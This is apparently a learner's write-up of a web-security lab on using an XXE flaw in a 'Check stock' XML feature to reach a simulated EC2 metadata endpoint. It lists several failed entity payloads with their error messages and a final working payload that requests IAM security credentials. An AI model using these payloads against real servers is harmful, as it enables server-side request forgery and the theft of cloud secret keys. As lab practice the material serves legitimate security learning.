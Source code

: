 # Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is <http://169.254.169.254/>. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

----

Fuzzing & Results

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mydoc [ <!ENTITY myent SYSTEM "http://fd00:ec2::254/latest/meta-data/" > ]>
<stockCheck><productId>&myent;</productId><storeId>1</storeId>
<product>
&myent;
</product>
</stockCheck>```

->
response
`"XML parser exited with error: java.net.MalformedURLException: Error at index 0 in: "ec2::254""`

----

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mydoc [ <!ENTITY myent SYSTEM "http://ec2%3a%3a254/latest/meta-data/" > ]>
<stockCheck><productId>1</productId><storeId>1</storeId>
<product>
&myent;
</product>
</stockCheck>
```

->
response

`"Entities are not allowed for security reasons"`

----

"http%3a//169.254.169.254/latest/meta-data/local-hostname/" > ]>

----
payload

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mydoc [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId>
<product>
</product>
</stockCheck>
```

this payload worked somehow , idk why the first one didn't :"
